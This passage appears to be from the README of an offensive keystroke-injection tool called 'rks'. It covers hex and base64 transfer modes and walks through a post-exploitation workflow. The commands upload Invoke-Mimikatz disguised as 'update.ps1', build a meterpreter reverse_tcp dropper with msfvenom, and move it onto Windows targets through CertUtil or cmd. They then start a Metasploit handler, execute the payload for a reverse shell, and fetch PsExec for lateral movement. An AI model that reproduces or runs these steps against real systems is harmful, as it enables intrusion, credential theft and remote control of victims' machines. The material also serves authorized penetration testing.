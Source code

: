 |   `nixhex`     |       Unix        | Outputting a hex encoded one liner in a variable then decodes with with `echo -e` to interpret the `\x` sequence character. This is suitable when dealing with IoT devices especially when Telnet lacks a feature to transfer files.|
|  `outfilehex`  |      Windows      | Uses `Out-File` cmdlet to output the encoded hexdump file's content then decodes it with `CertUtil.exe`. |

Upload a file remotely when pivoting in a isolated network. If you want to specify the remote path on windows be sure to include quotes. By default it uses Powershell base64 to transfer files if not specified. This also includes droppers even if the size is large. Bear in mind it'll take time to complete the file transfer.

```
$ rks -c "powershell.exe" -m dialogbox

$ rks -i Invoke-Mimikatz.ps1 -o "C:\Windows\Temp\update.ps1" -m pwshb64
[*] Transferring file...
[+] File transferred!
```

To transfer droppers you can use `CertUtil.exe` base64 especially if it's large.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=8443 -f exe -o payload.exe
```

To transfer droppers with powershell via `CertUtil.exe` base64.

```
$ rks -c "powershell.exe" -m dialogbox

$ rks -i payload.exe -o payload.exe -m outfileb64
```

It's also possible for legacy operating systems to transfer files such as, **Windows XP** that lacks powershell except for command prompt.

```
$ rks -c "cmd.exe" -m dialogbox

$ rks -i payload.exe -o payload.exe -m cmdb64
```

Activate your C2 listener and execute the payload.

```
$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp set lhost <IP>; set lport 8443; run"

$ rks -c ".\payload.exe"
```

Another way to transfer files especially for sysadmin and offensive tools. Let's take `PsExec64.exe` as an example to requires us for lateral movement. It'll take a long time to upload via text without interruption. Instead the fastest way is to mount the WebDAV that belongs to the legitimate website of sysinternals suite toolkit (`live.sysinternals.com`). Instead of using the file explorer which is much slower than executing commands. Here are the commands for command prompt.

```
$ cat commands.txt
net use z: \\live.sysinternals.com\tools
copy z:\PsExec64.exe .
net use z: /delete

$ rks -c "cmd.exe" -m dialogbox

$ rks -c commands.txt
```
